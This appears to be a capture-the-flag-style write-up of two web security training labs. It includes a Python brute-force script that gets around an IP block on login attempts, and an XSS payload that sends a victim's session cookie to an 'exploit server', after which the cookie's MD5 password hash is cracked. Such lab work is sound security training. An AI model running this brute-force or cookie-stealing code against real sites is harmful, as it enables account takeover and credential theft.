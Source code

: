 <div align='center'>

# **Authentication vulnerabilities**

</div>

### **Lab:** Broken brute-force protection, IP block

**Goal:** Login as user carlos

**The lab provide:** A credential wiener:peter, a password wordlist [password](./passwordlist.txt)

**Solution:** 

1.  We see that when we login incorrectly 3 times in a row, our IP address is temporarily blocked. However, we can bypass this restriction by login 2 times then login correctly with credential wiener:peter.

![](./img/Lab1/1.png)

2.  I use this [python script](./passLab4.py) to brute force for the password and solve the lab

The check_login function will login with username and password. It returns true if the login is successful with username is not weiner

```python
def check_login(session, domain, username, password):
    credential = {'username': username, 'password': password}
    r = session.post(domain + '/login', data=credential)
    if (username != 'wiener'):
        print('Trying Password: ', password)
    if ('Incorrect password' not in r.text and username != 'wiener'):
        return True
    else:
        return False
```

The brute function will login two times with password in the wordlist and then login with credential wiener:peter. If the password is right, the function will print that password 

```python
def brute(session, domain, username, wordlist):
    with open(wordlist, 'r') as f:
        count = 0
        for password in f.readlines():
            password = password.strip()
            count += 1
            if (count % 3 != 0):
                if (check_login(session, domain, username, password)):
                    print('Found Password: ', password)
                    break
            else:
                count = 1
                check_login(session, domain, 'wiener', 'peter')
                if (check_login(session, domain, username, password)):
                    print('Found Password: ', password)
                    break
```

The verify function will verify whether the lab is solved is not

```python
def verify(session, domain):
    r = session.get(domain)
    if ('Solved' in r.text):
        print('Solved. Visit ' + domain + ' to see the solution.')
    else:
        print('Not solved yet.')
```

![](./img/Lab1/1.png)

![](./img/Lab1/2.png)

**Solution script:** [passLab4.py](./passLab4.py)

### **Lab:** Offline password cracking

**Goal:** Login as user carlos

**The lab provide:** A credential wiener:peter, a password wordlist [password](./passwordlist.txt)

**Solution:** 
1.    We see that this website is vulnerable to XSS in the comment section when we comment as ``<b>XSS</b>``

![XSS](./img/otherLab2.png)

2.  Moreover, when we login as wiener:peter, we get a stay-logged-in cookie which value is base64 encoded. 

![](./img/Lab2/1.png)

![](./img/Lab2/2.png)

The cookie is constructed as: username + ':' + md5 hash of password

![](./img/Lab2/3.png)

3.  With the XSS vulnerbility we discovered before, we use this payload to steal carlos's cookie. When carlos login and visit the comment section, he will send the GET request to the server which contain his stay-logged-in cookie. The access log will record it in the server so we can read his cookie

```javascript
<script>document.location="your exploit server"+document.cookie</script>
```

![](./img/Lab2/4.png)

4.  When we go to the access log of the exploit server, we see a request came from carlos containing his cookie

![](./img/Lab2/5.png)

5.  Decode the cookie using Base64, we get:

```
carlos:26323c16d5f4dabff3bb136f2460a943
```

6.  Using [Crack Station](https://crackstation.net/), we get the password `onceuponatime`

![Hash](./img/otherLab2-2.png) 

7.  Login as carlos and delete his account to solve to the lab

![](./img/Lab2/6.png)

**Solution script:** [otherLab2.py](./otherLab2.py)
